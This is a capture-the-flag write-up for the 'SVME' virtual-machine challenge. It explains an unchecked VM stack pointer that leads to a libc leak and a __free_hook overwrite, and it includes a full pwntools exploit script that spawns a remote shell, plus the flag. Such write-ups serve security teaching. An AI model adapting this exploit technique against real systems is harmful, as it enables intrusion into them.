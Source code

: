 # SVME

## Challenge

We're given a program which accepts code and runs it in a simple virtual machine.

The machine is open source and is available on GitHub:
[parrt/simple-virtual-machine-C](https://github.com/parrt/simple-virtual-machine-C).

## Solution

### First attempt

Originally, I was looking at buffer overflows which might lead to return oriented programming.

The binary had a canary and only read the expected number of characters.
However, the program had a buggy mechanism for chunked `read`s where you could skip sections of the stack.
This was due to the fact that the buffer pointer incremented by `sizeof(int)` each character read.
Instead, the buffer pointer should have been incremented by the number of characters read.
This vulnerability allows us to write practically anywhere on the stack greater than our buffer pointer, skipping canaries.

Unfortunately, this was a red herring as it was very hard to exploit without a leak.
I looked for LSB overwrites in the return address, but could not find any nearby functions that wouldve been useful.
Using a one\_gadget was another idea, but would have required a 16-bit bruteforce.

### Second attempt

Looking at the public GitHub repository, it's easy to see that there are very few measures in place for ensuring memory safety.

The easiest to exploit was the fact that the bounds of the stack pointer was not enforced.
This allowed me to overwrite the data structure of the virtual machine struct.

The virtual machine struct includes a stack pointer for its instructions array, and a heap pointer for global storage, as well as a local storage array.

First, I set the global storage pointer to point at the stack by copying over the stack pointer.
This allowed me to read stack addresses as if they were values in global storage.
I used this to retrieve the libc address from the stack and put it in local storage for later use.

Then, I set the global storage pointer to the address of `__free_hook`.
This gave me arbitrary writes within libc, which I used to write the address of `system` to `__free_hook`.

Finally, I set the global storage pointer to point back at the stack again.
I wrote `"/bin/sh"` to global storage and called halt.
This caused the program free the virtual machine's global storage, which called `system("/bin/sh")` due to the earlier steps.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 47.243.140.252 --port 1337 svme
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('svme')
libc = ELF('libc-2.31.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '47.243.140.252'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

IADD = p32(1)
ISUB = p32(2)
ICONST = p32(9)
LOAD = p32(10)
GLOAD = p32(11)
STORE = p32(12)
GSTORE = p32(13)
PRINT = p32(14)
POP = p32(15)
HALT = p32(18)

io = start()

payload = flat({
    0: [
        POP,
        POP,
        POP,
        POP,
        POP,

        STORE, #code addr for stack leak
        p32(2),

        STORE,
        p32(1),

        LOAD, #stack addr as code addr
        p32(1),

        LOAD,
        p32(2),

        ICONST,
        p32(0x80),

        ICONST,
        p32(0),

        LOAD, #stack addr as globals addr
        p32(1),

        LOAD,
        p32(2),

        GLOAD, #libc_start_main_ret to free_hook
        p32(134),

        ICONST,
        p32(0x1c7a75),

        IADD,

        GLOAD,
        p32(135),

        STORE, #store free_hook
        p32(4),

        STORE,
        p32(3),

        POP,
        POP,

        LOAD, #libc as globals addr
        p32(3),

        LOAD,
        p32(4),

        LOAD, #free_hook to system addr
        p32(3),

        ICONST,
        p32(0x199718),

        ISUB,

        LOAD,
        p32(4),

        GSTORE, #system as free_hook
        p32(1),

        GSTORE,
        p32(0),

        POP,
        POP,

        LOAD, #stack as globals addr
        p32(1),

        LOAD,
        p32(2),

        ICONST,
        b'/bin',

        ICONST,
        b'/sh\x00',

        GSTORE, #binsh to globals
        p32(1),

        GSTORE,
        p32(0),

        ICONST,
        p32(0),

        HALT,
        ]
    }, length=0x200, filler=b'\x00')

io.send(payload)

io.interactive()
```

## Flag

`rwctf{simple_vm_escape_helps_warming_up_your_real_world_hacking_skill}`
